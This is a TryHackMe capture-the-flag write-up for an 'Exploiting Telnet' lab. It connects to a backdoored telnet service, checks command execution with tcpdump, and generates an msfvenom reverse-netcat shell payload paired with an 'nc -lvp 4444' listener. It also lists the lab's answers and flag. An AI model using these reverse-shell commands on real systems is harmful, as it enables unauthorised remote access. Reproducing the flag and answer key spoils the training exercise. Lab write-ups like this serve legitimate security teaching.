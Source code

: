 ```yaml
---
title:  "TryHackMe: Exploiting Telnet"
date:   2021-03-12 22:30:00 +1100
excerpt: Connecting to Telnet, listening with Tcpdump and Netcat, executing a reverse shell via Msfvenom.
---
```


This is a write up for the **Exploiting Telnet** task of the [**Network Services**](https://tryhackme.com/room/networkservices) room on [TryHackMe](https://tryhackme.com). Some tasks have been omitted as they do not require an answer.

***

### Great! It's an open telnet connection! What welcome message do we receive?

Attempt to make a telnet connection by executing the below command. It is important to note that as per the previous lesson, Telnet is running on a non-standard port (8012).

```
telnet <ip> 8012
```

Once successfully connected, we are presented with the welcome message.

<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/01-telnet-connect.jpg">

> Answer: **SKIDY'S BACKDOOR**

### Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

```
.HELP
```

Running .HELP shows us we can execute commands with the ```.RUN``` command.

```
.RUN ls
```

<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/02-telnet-run.jpg">

Nothing appears to return in the terminal.


> Answer: **N**

### Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

Open a new terminal session to start a tcpdump listener.

```
sudo tcpdump ip proto \\icmp -i eth0
```
<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/03-tcpdump-listen.jpg">

Switch back to the telnet session and enter the following command.

```
.RUN ping <local ip> -c 1
```

In our tcpdump listener we see the following communication.

<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/04-tcpdump-response.jpg">

> Answer: **Y**

### What word does the generated payload start with?

Exit the Tcpdump listener and enter the msfvenom command as instructed, replacing lhost with the local machine's ip address.

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

Please note, this command may take a little while to execute.

<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/05-msfvenom.jpg">

> Answer: **mkfifo**

### What would the command look like for the listening port we selected in our payload?

Copy the command returned by msfvenom to your clipboard.

Open a netcat listener as instructed, as per the previous instruction the listening port is 4444.

> Answer: **nc -lvp 4444**

### Success! What is the contents of flag.txt?

Paste the command in our clipboard from msfvenom into the telnet session. Make sure to prepend .RUN.

Netcat should indicate that a file was received.

<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/06-netcat.jpg">

List out the file received and print its contents.

<img src="{{ site.baseurl }}/assets/images/2021-03-12-exploiting-telnet/07-flag.jpg">

> Answer: **THM{y0u_g0t_th3_t3ln3t_fl4g}**

### Recap

In this task we learnt how to:
 * Connect to a telnet server
 * Start a tcpdump listener
 * Create a reverse shell payload with msfvenom
 * Start a netcat listener